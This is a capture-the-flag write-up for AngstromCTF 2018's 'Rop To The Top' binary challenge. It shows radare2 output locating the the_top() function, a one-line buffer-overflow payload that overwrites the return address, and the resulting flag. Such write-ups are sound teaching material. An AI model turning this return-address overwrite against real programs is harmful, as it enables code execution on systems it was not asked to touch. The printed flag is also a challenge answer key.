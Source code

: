 # AngstromCTF_2018: Rop To The Top

**Category:** Binary
**Points:** 130
**Description:**

>Rop, rop, rop
Rop to the top!
Slip and slide and ride that rhythm... 
Here's some [binary](rop_to_the_top32) and [source](rop_to_the_top.c). Navigate to` /problems/roptothetop/` on the shell server to try your exploit out!

## Write-up
Relatively simple challenge too, with a simple ROP exploit code.

    # r2 rop_to_the_top32
    r_config_set: variable 'asm.cmtright' not found
     -- To debug a program, you can call r2 with 'dbg://<path-to-program>' or '-d <path..>'
    [0x080483e0]> aaaa
    [x] Analyze all flags starting with sym. and entry0 (aa)
    [x] Analyze len bytes of instructions for references (aar)
    [x] Analyze function calls (aac)
    [x] Emulate code to find computed references (aae)
    [x] Analyze consecutive function (aat)
    [x] Constructing a function name for fcn.* and sym.func.* functions (aan)
    [x] Type matching analysis for all functions (afta)

    [0x080483e0]> is
    [Symbols]
    [...]
    060 0x00001028 0x0804a028 GLOBAL OBJECT    0 __dso_handle
    061 0x0000061c 0x0804861c GLOBAL OBJECT    4 _IO_stdin_used
    063 0x000005a0 0x080485a0 GLOBAL   FUNC   93 __libc_csu_init
    064 0x0804a030 0x0804a030 GLOBAL NOTYPE    0 _end
    065 0x000003e0 0x080483e0 GLOBAL   FUNC    0 _start
    066 0x000004db 0x080484db GLOBAL   FUNC   25 the_top
    067 0x00000618 0x08048618 GLOBAL OBJECT    4 _fp_hw
    [...]

With the address of `the_top()`, we can now craft our exploit.

    $ ./rop_to_the_top32 `python -c "print('A' * 44 + '\xdb\x84\x04\x08')"`
    Now copying input...
    Done!
    actf{strut_your_stuff}

Therefore, the flag is `actf{strut_your_stuff}`.
